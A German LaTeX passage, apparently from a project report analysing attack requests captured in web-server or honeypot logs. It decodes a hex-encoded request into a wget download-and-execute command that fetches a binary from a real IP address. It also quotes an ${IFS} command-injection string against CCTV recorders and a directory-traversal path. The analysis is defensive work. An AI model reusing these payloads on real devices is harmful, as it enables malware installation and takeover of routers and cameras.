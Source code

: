 Auch ein einzelner Eintrag ist an dieser Stelle erwähnenswert, verdeutlicht er doch die Breite des Spektrums, in der Angriffe stattfinden: Der Zugriffsversuch '/HNAP1' zielt auf eine Schwachstelle\footnote{ \textit{Schwachstellen von HNAP}: \url{https://isc.sans.edu/forums/diary/More+on+HNAP+What+is+it+How+to+Use+it+How+to+Find+it/17648/}} in der Implementierung des Home Network Administration Protocols(HNAP) unter anderem bei D-Link\footnote{ \textit{D-Link}: \url{http://www.dlink.com/de/de}}, aber auch anderen Routern hin.\\ 

'./stssys.htm' zählt auch zu der Kategorie einzigartig. So handelt es sich bei dieser Anfrage um den Versuch eine Schwachstelle\footnote{ \textit{Schwachstelle TRENDnet Printserver}: \url{https://neonprimetime.blogspot.de/2016/08/stssyshtm-wget-request.html}} bei TRENDnet Printservern auszunutzen, mit der Folge das betroffene Gerät auf Werkseinstellungen zurücksetzen und somit die IP-Adresse des Gerätes neu zu vergeben.\\

Erst durch die Umwandlung von der hexadezimalen Schreibweise in ASCII offenbart sich '/shell?\%63\%64\%20\%2F\%74\%6D\%70\%3B\%77\%67\%65\%74\%20\%2D\%63\%20\%68\%74\%74\%70\%3A\%2F\%2F\%31\%32\%32\%2E\%31\%31\%34\%2E\%32\%35\%33\%2E\%39\%34\%3A\%31\%35\%35\%32\%31\%2F\%61\%72\%6D\%67\%67\%3B\%63\%68\%6D\%6F\%64\%20\%37\%37\%37\%20\%61\%72\%6D\%67\%67\%3B\%2E\%2F\%61\%72\%6D\%67\%67\%20\%26' als das was er wirklich ist: 'cd /tmp;wget -c http://122.114.253.94:15521/armgg;chmod 777 armgg;./armgg \&'. Über einen 'wget' wird versucht die Ressource 'armgg' von einer IP-Adresse herunterzuladen und gegebenenfalls unterbrochene Downloads, durch den Parameter '-c' für continue, fortzusetzen. 'armgg' soll durch 'chmod 777' von Jedermann gelesen, verändert oder ausgeführt werden können und daraufhin als Hintergrundprozess gestartet werden. Zu gegebener Zeit wird das Projektteam versuchen, diese Datei herunterzuladen und in einer gesicherten Umgebung betrachten.\\

Noch ausgefallener ist dieser Angriff: '/language/Swedish\${IFS}\&\&echo\${IFS}610cker>qt\&\&tar\${IFS}/string.js'. Ziel dieses Angriffs ist es, eine Reverse-Shell auf   Überwachungskameras zu erzeugen, auf Kerneronsec\footnote{ \textit{Kerneronsec Remote Code Execution in CCTV-DVR}: \url{http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html}} wird die Vorgehensweise genau beschrieben. Der Aufruf von '/../../../../../../../mnt/mtd/qt' ist auch Teil dieses Angriffs.\\

